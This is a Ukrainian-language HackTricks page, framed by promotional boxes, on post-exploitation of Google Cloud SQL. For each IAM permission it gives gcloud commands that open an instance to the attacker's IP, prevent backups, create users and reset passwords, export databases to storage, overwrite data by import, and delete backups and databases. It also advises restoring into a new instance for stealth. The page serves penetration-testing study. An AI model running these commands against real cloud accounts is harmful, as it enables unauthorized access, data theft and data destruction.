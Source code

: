 # GCP - Післяексплуатація Cloud SQL

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію в рекламі на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub**.

</details>

## Cloud SQL

Для отримання додаткової інформації про Cloud SQL перегляньте:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Для підключення до баз даних вам **просто потрібен доступ до порту бази даних** та знання **імені користувача** та **пароля**, не потрібні жодні вимоги до IAM. Таким чином, простий спосіб отримати доступ, припускаючи, що база даних має публічну IP-адресу, - це оновити дозволені мережі та **дозволити вашій власній IP-адресі отримати до нього доступ**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Також можна використовувати **`--no-backup`** для **перешкодження резервним копіям** бази даних.

Оскільки це вимоги, я не зовсім впевнений, для чого потрібні дозволи **`cloudsql.instances.connect`** та **`cloudsql.instances.login`**. Якщо ви знаєте, надішліть запит на злиття!

### `cloudsql.users.list`

Отримати **список всіх користувачів** бази даних:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Ця дозвіл дозволяє **створювати нового користувача всередині** бази даних:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Ця дозвіл дозволяє **оновлювати користувача всередині** бази даних. Наприклад, ви можете змінити його пароль:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Резервні копії можуть містити **стару конфіденційну інформацію**, тому цікаво їх перевірити.\
**Відновлення резервної копії** всередині бази даних:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Для більш прихованого виконання рекомендується створити новий екземпляр SQL та відновити дані там замість в поточно працюючих баз даних.

### `cloudsql.backupRuns.delete`

Ця дозвіл дозволяє видаляти резервні копії:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Експорт бази даних** до сховища Cloud Storage, щоб мати до неї доступ звідти:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Імпорт бази даних** (перезапис) з облака Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Видалити базу даних з екземпляра бази даних:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити свою **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub**.

</details>
